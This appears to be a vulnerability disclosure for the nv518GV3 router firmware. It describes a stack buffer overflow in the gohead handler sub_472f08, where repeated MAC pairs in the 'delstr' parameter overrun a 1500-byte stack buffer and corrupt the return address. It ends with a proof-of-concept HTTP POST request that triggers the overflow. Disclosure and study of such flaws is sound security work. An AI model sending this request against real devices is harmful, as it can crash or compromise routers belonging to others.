


# FUN_00472f08 漏洞信息

## 基础信息
- **影响组件**: /gohead/sub_472f08
- **固件版本**: nv518GV3v3.2.7-210919-161313
## 漏洞详情

/gohead/sub_472f08





The delstr parameter is split by commas using strtok_r(). Each token becomes two MAC addresses via sscanf(). Inside the loop, strncpy() writes 32 bytes plus 6 bytes from str2mac() into v24[19*v5+2], advancing 38 bytes per iteration. The loop bound check n4 < 1462 fails to protect v24 (1500 bytes). After ~40 iterations, writes exceed v24 bounds, overwriting adjacent stack variables (v25, v26) and corrupting the return address.

eg.poc：

```
POST gohead/sub_472f08 HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded

delstr=00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF,00:11:22:33:44:55:AA:BB:CC:DD:EE:FF

```